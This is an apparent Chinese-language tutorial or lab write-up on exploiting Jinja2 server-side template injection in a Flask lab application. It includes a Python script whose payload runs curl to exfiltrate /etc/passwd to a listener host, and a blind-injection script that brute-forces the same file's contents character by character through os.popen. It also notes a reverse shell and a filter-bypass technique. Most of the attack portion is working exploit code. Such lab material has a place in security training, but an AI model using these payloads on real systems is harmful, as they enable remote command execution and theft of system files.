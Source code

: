   ```py
  监听主机收到反弹shell进入对方命令行界面
  ```

* 带外注入

  通过requestbin或dnslog的方式将信息传到外界

  ```py
  import requests
  url = 'http://172.31.130.66:8006/flasklab/level/3'
  for i in range(500):
      try:
          data = {"code": '{{"".__class__.__base__.__subclasses__()[' + str(i) + '].__init__.__globals__["popen"]("curl http://172.31.130.66/`cat /etc/passwd`").read()}}'} # 反引号命令执行
          r = requests.post(url,data=data)
      except:
          pass
  同时kali开启一个python http监听
  python3 -m http.server 80
  ```

  

* 纯盲注

  通过写脚本

  ```py
  import requests
  url = 'http://172.31.130.66:8006/flasklab/level/1'
  def check(payload): # 检测r中是否有Benben 
      postdata = {
          'code':payload
      }
      r = requests.post(url,data=postdata)
      if 'Benben' in r.text:
          return '1'
  password = ''
  s = r'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$\'()*+,-./:;<=>?@[\\]^`{|}~\'''_%'
  for i in range(0,100):
      for c in s:
          payload = '{% if "".__class__.__base__.__subclasses__()[199].__init__.__globals__["os"].popen("cat /etc/passwd").read()[' + str(i) + ':' + str(i + 1) + '] == "' + c + '" %}Benben{% endif %}'
          # print(payload)
          if check(payload):
          	password += c
          	break
      print(password)
  ```

## 绕过过滤中括号

  > 
  >
  > __getitem\_\_()魔术方法
  >
  > getitem()是Python的一个魔术方法，
  >
  > 对字典使用时，传入字符串，返回字典相应键所对应的值；
  >
  > 当对列表使用时，传入整数返回列表对应索引的值。
